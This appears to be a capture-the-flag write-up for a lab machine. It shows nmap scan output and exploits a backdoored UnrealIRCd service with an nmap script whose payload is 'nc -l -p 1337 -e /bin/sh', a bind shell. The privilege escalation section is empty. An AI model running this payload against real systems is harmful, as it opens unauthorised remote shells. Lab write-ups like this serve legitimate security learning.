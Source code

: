 ![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/30774542-e40f-4c9b-980f-2f2d14b873b1)

first enumeration with nmap

```
# Nmap 7.93 scan initiated Tue Jun  6 01:27:45 2023 as: nmap -sC -sV -T4 -oN normal.txt -p 22,80,111,6697,8067 -Pn 10.10.10.117
Nmap scan report for 10.10.10.117
Host is up (0.17s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
| ssh-hostkey: 
|   1024 6a5df5bdcf8378b675319bdc79c5fdad (DSA)
|   2048 752e66bfb93cccf77e848a8bf0810233 (RSA)
|   256 c8a3a25e349ac49b9053f750bfea253b (ECDSA)
|_  256 8d1b43c7d01a4c05cf82edc10163a20c (ED25519)
80/tcp   open  http    Apache httpd 2.4.10 ((Debian))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.10 (Debian)
111/tcp  open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          37088/udp6  status
|   100024  1          50025/udp   status
|   100024  1          52269/tcp6  status
|_  100024  1          54469/tcp   status
6697/tcp open  irc     UnrealIRCd
8067/tcp open  irc     UnrealIRCd
Service Info: Host: irked.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Jun  6 01:28:03 2023 -- 1 IP address (1 host up) scanned in 18.05 seconds
```
cool we've got an interesting service `irc` running `UnrealIRCd`.


## Exploiting IRC

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/eedf44ff-18a0-47d4-a107-006af209bcd2)

running an nmap irc backdoor script, was able to bind a shell, and connect to the shell. we are in as user `ircd`. 

```
nmap -d -p 8067 --script=irc-unrealircd-backdoor.nse --script-args=irc-unrealircd-backdoor.command='nc -l -p 1337 -e /bin/sh' -Pn 10.10.10.117
```
nmap script payload.


## Privilege Escalation




